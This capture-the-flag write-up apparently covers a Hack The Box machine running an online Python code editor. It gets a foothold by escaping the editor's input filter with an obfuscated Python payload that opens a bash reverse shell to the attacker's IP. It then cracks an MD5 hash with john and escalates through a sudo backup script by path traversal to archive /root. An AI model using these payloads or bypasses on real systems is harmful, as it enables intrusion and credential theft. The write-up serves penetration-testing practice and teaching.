


# Code



# Machine info :

IP address : **`10.10.11.62`** 

# Pinging :

```bash
┌──(kali㉿kali)-[~]
└─$ ping 10.10.11.62             
PING 10.10.11.62 (10.10.11.62) 56(84) bytes of data.
64 bytes from 10.10.11.62: icmp_seq=1 ttl=63 time=227 ms
64 bytes from 10.10.11.62: icmp_seq=2 ttl=63 time=231 ms
64 bytes from 10.10.11.62: icmp_seq=3 ttl=63 time=159 ms
^C
--- 10.10.11.62 ping statistics ---
3 packets transmitted, 3 received, 0% packet loss, time 2168ms
rtt min/avg/max/mdev = 158.708/205.593/231.151/33.197 ms
```

# Nmap Scan :

```bash
┌──(kali㉿kali)-[~]
└─$ nmap -sCV  10.10.11.62
Starting Nmap 7.95 ( https://nmap.org ) at 2025-08-03 11:02 EDT
Nmap scan report for 10.10.11.62
Host is up (1.1s latency).
Not shown: 998 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 b5:b9:7c:c4:50:32:95:bc:c2:65:17:df:51:a2:7a:bd (RSA)
|   256 94:b5:25:54:9b:68:af:be:40:e1:1d:a8:6b:85:0d:01 (ECDSA)
|_  256 12:8c:dc:97:ad:86:00:b4:88:e2:29:cf:69:b5:65:96 (ED25519)
5000/tcp open  http    Gunicorn 20.0.4
|_http-server-header: gunicorn/20.0.4
|_http-title: Python Code Editor
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 29.36 seconds
```

The target has two open TCP ports — **`Port 22 for SSH`** and **`port 5000`**, which is likely hosting a **`web application`**.

## Port 5000:



Looks like an **`online Python IDE`** — since it shows output on the left, it might be vulnerable to code execution. I’ll try injecting a Python reverse shell to see if I can pop a shell.

# Exploitation :

I’ll generate a **Python reverse shell** payload using [revshells.com](https://www.revshells.com/) , then set up a **listener on my device** to catch the incoming connection once the payload is executed.

```python
export RHOST="10.10.16.29";export RPORT=1234;python3 -c 'import sys,socket,os,pty;s=socket.socket();s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("sh")'
```


The site applies `**filters**` to detect or block malicious input, so I need to **`obfuscate or modify the reverse shell code`** to bypass these filters and successfully establish a shell connection.

After doing some research and with the help of **ChatGPT**, I found a version of the reverse shell code that successfully **bypasses the upload filters**, and I was able to **get a working shell** on the target machine
Reference : [https://medium.com/soulsecteam/some-simple-bypass-tricks-8f02455b098d](https://medium.com/soulsecteam/some-simple-bypass-tricks-8f02455b098d)


Final code : 

```python
[w for w in (1).__class__.__base__.__subclasses__() if w.__name__=='Quitter'][0].__init__.__globals__['sy'+'s'].modules['o'+'s'].__dict__['sy'+'stem']('bash -c "bash -i >& /dev/tcp/10.10.16.29/1234 0>&1"')
```


Made the shell stable 

```python
app-production@code:~/app$ python3 -c 'import pty; pty.spawn("/bin/bash")'
python3 -c 'import pty; pty.spawn("/bin/bash")'
app-production@code:~/app$ ^Z
zsh: suspended  nc -lvnp 1234
                                                                                                                                                              
┌──(kali㉿kali)-[~]
└─$ stty raw -echo; fg
[1]  + continued  nc -lvnp 1234

	app-production@code:~/app$ 
```

found a database in instance directory

```python
app-production@code:~/app$ ls instance/
database.db
app-production@code:~/app/instance$ sqlite3 database.db 
SQLite version 3.31.1 2020-01-27 19:55:54
Enter ".help" for usage hints.
sqlite> .tables
code  user
sqlite> select * from user;
1|development|759b74ce43947f5f4c91aeddc3e5bad3
2|martin|3de6f30c4a09c27fc71932bfc68474be
sqlite> bash: [7656: 2 (255)] tcsetattr: Inappropriate ioctl for device
app-production@code:~/app$ exit

```

but here i didint needed to switch user to get to the user flag i just did the cd command there was the user.txt ie user flag

```python
app-production@code:~/app$ cd
app-production@code:~$ ls 
app  user.txt
app-production@code:~$ cat user.txt 
484db776de36eb45b9062a3d2a16b5ac
```

# User Flag

**`484db776de36eb45b9062a3d2a16b5ac`**

# Root Flag

Since I don’t have permission to access the **`/root`** directory directly, my next step is to **crack the hash of the user `martin`** .Gaining access to Martin’s account may help me escalate privileges and eventually retrieve the **`root flag`** .


## hash crack

```bash
┌──(kali㉿kali)-[~/HTB]
└─$ echo "3de6f30c4a09c27fc71932bfc68474be" > hash.txt 

┌──(kali㉿kali)-[~/HTB]
└─$ john --format=raw-md5 --wordlist=/usr/share/wordlists/rockyou.txt hash.txt

Using default input encoding: UTF-8
Loaded 1 password hash (Raw-MD5 [MD5 128/128 AVX 4x3])
Warning: no OpenMP support for this hash type, consider --fork=4
Press 'q' or Ctrl-C to abort, almost any other key for status
nafeelswordsmaster (?)     
1g 0:00:00:00 DONE (2025-08-06 04:41) 2.564g/s 13402Kp/s 13402Kc/s 13402KC/s nafi1993..nafal1
Use the "--show --format=Raw-MD5" options to display all of the cracked passwords reliably
Session completed.
```

password : **`nafeelswordsmaster`**

Switched to martin 

```bash
app-production@code:/home$ su martin
Password: 
martin@code:/home$
```

Inside Martin’s home directory, I noticed a folder named `root`, which initially seemed suspicious — possibly hinting at access to the actual root user’s data.

However, after navigating into it and exploring further (~/root/scripts/backups/), it turned out to be Martin’s own directory structure, not the real /root.

The contents were either empty or useless from a privilege escalation standpoint, so nothing valuable was found there.

```bash
martin@code:~$ ls
backups  root
martin@code:~$ cd root/
martin@code:~/root$ 
martin@code:~/root$ ls 
scripts
martin@code:~/root$ ll
total 36
drwx------ 6 martin martin 4096 Aug  5 20:30 ./
drwxr-x--- 7 martin martin 4096 Aug  5 20:30 ../
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .bash_history -> /dev/null
-rw-r--r-- 1 martin martin 3106 Dec  5  2019 .bashrc
drwx------ 2 martin martin 4096 Aug  5 20:30 .cache/
drwxr-xr-x 3 martin martin 4096 Jul 27  2024 .local/
-rw-r--r-- 1 martin martin  161 Dec  5  2019 .profile
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .python_history -> /dev/null
drwxr-xr-x 3 martin martin 4096 Aug  5 20:30 scripts/
-rw-r--r-- 1 martin martin   66 Apr  9 11:27 .selected_editor
lrwxrwxrwx 1 martin martin    9 Jul 27  2024 .sqlite_history -> /dev/null
drwx------ 2 martin martin 4096 Aug  5 20:30 .ssh/
martin@code:~/root$ cd scripts/
martin@code:~/root/scripts$ ls
backups
martin@code:~/root/scripts$ ls -lah
total 12K
drwxr-xr-x 3 martin martin 4.0K Aug  5 20:30 .
drwx------ 6 martin martin 4.0K Aug  5 20:30 ..
drwxr-xr-x 2 martin martin 4.0K Aug  5 20:30 backups
martin@code:~/root/scripts$ cd backups/
martin@code:~/root/scripts/backups$ ls -lah
total 8.0K
drwxr-xr-x 2 martin martin 4.0K Aug  5 20:30 .
drwxr-xr-x 3 martin martin 4.0K Aug  5 20:30 ..
```

I ran the **`sudo -l`** command to check which commands Martin can execute with sudo privileges and without needing a password.

The output revealed that Martin can run the script **`/usr/bin/backy.sh`** as any user, including root:

```bash
martin@code:~$ sudo -l
Matching Defaults entries for martin on localhost:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User martin may run the following commands on localhost:
    (ALL : ALL) NOPASSWD: /usr/bin/backy.sh

```

 it possible to backup files outside of **`/var/ and /home/`** using [**`backy.sh`**](http://backy.sh/) This means the script could potentially be exploited for **privilege escalation**, depending on how it’s written and what commands it runs. My next step is to **inspect the contents of `backy.sh`**to look for any exploitable behavior.


My initial idea was to edit **`/usr/bin/backy.sh`** to include a path to **`/root`**, which could potentially allow me to access restricted files like **`root.txt`**.

However, upon checking the file permissions:

```bash
martin@code:~/backups$ ls -lah /usr/bin/backy.sh
-rwxr-xr-x 1 root root 926 Sep 16  2024 /usr/bin/backy.sh
```

I realized the file is owned by root and not writable by Martin, meaning I don’t have the necessary permissions to modify it directly.
So instead, I’ll analyze the script for any exploitable behavior, such as calling other scripts, binaries, or using wildcard expansion unsafely.

While analyzing the **`/usr/bin/backy.sh`** script, I discovered that it expects a JSON input file as an argument — specifically something like **`task.json`**.

The script reads and sanitizes the JSON input to prevent directory traversal **`(../)`**, validates that all paths fall under either **`/var/` or `/home/`**, and finally calls **`/usr/bin/backy.sh`** to process the input.

It doesn’t hardcode the input file — instead, it takes a user-supplied JSON file, meaning I can pass my own file to control what gets processed.

The next step is to:

1. Locate the actual **`task.json`** file in **`/home/backup/`**.
2. Check its permissions — if Martin can read or write to it.
3. If writable, edit the JSON contents to point to a path I control (within /home/), and insert a payload or malicious command.

This could give me a way to execute code or access restricted files via the [backy.sh](http://backy.sh/) script, which runs with sudo privileges.

```bash
martin@code:~$ cat backups/task.json 
{
	"destination": "/home/martin/backups/",
	"multiprocessing": true,
	"verbose_log": false,
	"directories_to_archive": [
		"/home/app-production/app"
	],

	"exclude": [
		".*"
	]
}
martin@code:~$ ls -lah backups/task.json 
-rw-r--r-- 1 martin martin 181 Aug  6 08:50 backups/task.json
martin@code:~$ 
```

edited the task.json file


I edited the **`task.json`** file locally on my machine to include the desired payload or directory path.

Then, on the target machine, I **`removed the original task.json`** located in **`/home/backup/`** and used **`wget`** to download my modified version from my local machine, which was serving the file via a **`Python HTTP server.`**


The modified **`task.json`** worked as intended — when executed with **`sudo /usr/bin/backy.sh`**, the script successfully bypassed the **`../`** filter and created a backup of the **`/root`** directory inside the **`/tmp`** directory.

```bash
martin@code:~/backups$ sudo /usr/bin/backy.sh task.json 
2025/08/06 18:24:12 🍀 backy 1.2
2025/08/06 18:24:12 📋 Working with task.json ...
2025/08/06 18:24:12 💤 Nothing to sync
2025/08/06 18:24:12 📤 Archiving: [/home/../root]
2025/08/06 18:24:12 📥 To: /tmp ...
2025/08/06 18:24:12 📦
tar: Removing leading `/home/../' from member names
/home/../root/
/home/../root/.local/
/home/../root/.local/share/
/home/../root/.local/share/nano/
/home/../root/.local/share/nano/search_history
/home/../root/.selected_editor
/home/../root/.sqlite_history
/home/../root/.profile
/home/../root/scripts/
/home/../root/scripts/cleanup.sh
/home/../root/scripts/backups/
/home/../root/scripts/backups/task.json
/home/../root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
/home/../root/scripts/database.db
/home/../root/scripts/cleanup2.sh
/home/../root/.python_history
/home/../root/root.txt
/home/../root/.cache/
/home/../root/.cache/motd.legal-displayed
/home/../root/.ssh/
/home/../root/.ssh/id_rsa
/home/../root/.ssh/authorized_keys
/home/../root/.bash_history
/home/../root/.bashrc
```

I navigated to the **`/tmp directory`** and found the backup file: **`code_home_.._root_2025_August.tar.bz2`**

I extracted its contents.
After extracting it, I moved into the resulting **`root`** folder — and there it was: the **`root.txt`** file, containing the final flag.

```bash
martin@code:~/backups$ cd /tmp
martin@code:/tmp$ ls
code_home_.._root_2025_August.tar.bz2
martin@code:/tmp$ tar -xvjf code_home_.._root_2025_August.tar.bz2 
root/
root/.local/
root/.local/share/
root/.local/share/nano/
root/.local/share/nano/search_history
root/.selected_editor
root/.sqlite_history
root/.profile
root/scripts/
root/scripts/cleanup.sh
root/scripts/backups/
root/scripts/backups/task.json
root/scripts/backups/code_home_app-production_app_2024_August.tar.bz2
root/scripts/database.db
root/scripts/cleanup2.sh
root/.python_history
root/root.txt
root/.cache/
root/.cache/motd.legal-displayed
root/.ssh/
root/.ssh/id_rsa
root/.ssh/authorized_keys
root/.bash_history
root/.bashrc
martin@code:/tmp$ ls
code_home_.._root_2025_August.tar.bz2  root
martin@code:/tmp$ cd root
martin@code:/tmp/root$ ls
root.txt  scripts
martin@code:/tmp/root$ cat root.txt 
a3d70f994471d7260c41e9d3cac8959b
martin@code:/tmp/root$ 

```

Root flag : **`a3d70f994471d7260c41e9d3cac8959b`**